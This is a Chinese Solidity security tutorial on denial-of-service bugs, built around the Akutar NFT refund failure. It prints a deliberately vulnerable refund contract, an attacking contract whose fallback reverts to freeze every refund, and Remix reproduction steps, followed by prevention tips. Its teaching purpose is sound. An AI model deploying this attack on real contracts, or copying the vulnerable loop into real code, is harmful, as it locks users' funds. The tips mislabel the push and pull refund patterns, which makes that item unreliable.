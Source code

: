 ```yaml
---
title: S09. 拒绝服务
tags:
  - solidity
  - security
  - fallback
---
```


# WTF Solidity 合约安全: S09. 拒绝服务

我最近在重新学 Solidity，巩固一下细节，也写一个“WTF Solidity 合约安全”，供小白们使用（编程大佬可以另找教程），每周更新 1-3 讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

这一讲，我们将介绍智能合约的拒绝服务（Denial of Service, DoS）漏洞，并介绍预防的方法。NFT 项目 Akutar 曾因为 DoS 漏洞损失 11,539 ETH，当时价值 3400 万美元。

## DoS

在 Web2 中，拒绝服务攻击（DoS）是指通过向服务器发送大量垃圾信息或干扰信息的方式，导致服务器无法向正常用户提供服务的现象。而在 Web3，它指的是利用漏洞使得智能合约无法正常提供服务。

在 2022 年 4 月，一个很火的 NFT 项目名为 Akutar，他们使用[荷兰拍卖](https://github.com/AmazingAng/WTF-Solidity/tree/main/35_DutchAuction)进行公开发行，筹集了 11,539.5 ETH，非常成功。之前持有他们社区 Pass 的参与者会得到 0.5 ETH 的退款，但是他们处理退款的时候，发现智能合约不能正常运行，全部资金被永远锁在了合约里。他们的智能合约有拒绝服务漏洞。

![](./img/S09-1.png)

## 漏洞例子

下面我们学习一个简化了的 Akutar 合约，名字叫 `DoSGame`。这个合约逻辑很简单，游戏开始时，玩家们调用 `deposit()` 函数往合约里存款，合约会记录下所有玩家地址和相应的存款；当游戏结束时，`refund()`函数被调用，将 ETH 依次退款给所有玩家。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;

// 有DoS漏洞的游戏，玩家们先存钱，游戏结束后，调用refund退钱。
contract DoSGame {
    bool public refundFinished;
    mapping(address => uint256) public balanceOf;
    address[] public players;

    // 所有玩家存ETH到合约里
    function deposit() external payable {
        require(!refundFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");
        // 记录存款
        balanceOf[msg.sender] = msg.value;
        // 记录玩家地址
        players.push(msg.sender);
    }

    // 游戏结束，退款开始，所有玩家将依次收到退款
    function refund() external {
        require(!refundFinished, "Game Over");
        uint256 pLength = players.length;
        // 通过循环给所有玩家退款
        for(uint256 i; i < pLength; i++){
            address player = players[i];
            uint256 refundETH = balanceOf[player];
            (bool success, ) = player.call{value: refundETH}("");
            require(success, "Refund Fail!");
            balanceOf[player] = 0;
        }
        refundFinished = true;
    }

    function balance() external view returns(uint256){
        return address(this).balance;
    }
}
```

这里的漏洞在于，`refund()` 函数中利用循环退款的时候，是使用的 `call` 函数，将激活目标地址的回调函数，如果目标地址为一个恶意合约，在回调函数中加入了恶意逻辑，退款将不能正常进行。

```
(bool success, ) = player.call{value: refundETH}("");
```

下面我们写个攻击合约， `attack()` 函数中将调用 `DoSGame` 合约的 `deposit()` 存款并参与游戏；`fallback()` 回调函数将回退所有向该合约发送`ETH`的交易，对`DoSGame` 合约中的 DoS 漏洞进行了攻击，所有退款将不能正常进行，资金被锁在合约中，就像 Akutar 合约中的一万多枚 ETH 一样。

```solidity
contract Attack {
    // 退款时进行DoS攻击
    fallback() external payable{
        revert("DoS Attack!");
    }

    // 参与DoS游戏并存款
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }
}
```

## `Remix` 复现

**1.** 部署 `DoSGame` 合约。
**2.** 调用 `DoSGame` 合约的 `deposit()`，进行存款并参与游戏。
![](./img/S09-2.png)
**3.** 此时，如果游戏结束调用 `refund()` 退款的话是可以正常退款的。
![](./img/S09-3.jpg)
**3.** 重新部署 `DoSGame` 合约，并部署 `Attack` 合约。
**4.** 调用 `Attack` 合约的 `attack()`，进行存款并参与游戏。
![](./img/S09-4.jpg)
**5.** 调用 `DoSGame` 合约`refund()`，进行退款，发现不能正常运行，攻击成功。
![](./img/S09-5.jpg)

## 预防方法

很多逻辑错误都可能导致智能合约拒绝服务，所以开发者在写智能合约时要万分谨慎。以下是一些需要特别注意的地方：

1. 外部合约的函数调用（例如 `call`）失败时不会使得重要功能卡死，比如将上面漏洞合约中的 `require(success, "Refund Fail!");` 去掉，退款在单个地址失败时仍能继续运行。
2. 合约不会出乎意料的自毁。
3. 合约不会进入无限循环。
4. `require` 和 `assert` 的参数设定正确。
5. 退款时，让用户从合约自行领取（push），而非批量发送给用户(pull)。
6. 确保回调函数不会影响正常合约运行。
7. 确保当合约的参与者（例如 `owner`）永远缺席时，合约的主要业务仍能顺利运行。

## 总结

这一讲，我们介绍了智能合约的拒绝服务漏洞，Akutar 项目因为该漏洞损失了一万多枚ETH。很多逻辑错误都能导致DoS，开发者写智能合约时要万分谨慎，比如退款要让用户自行领取，而非合约批量发送给用户。

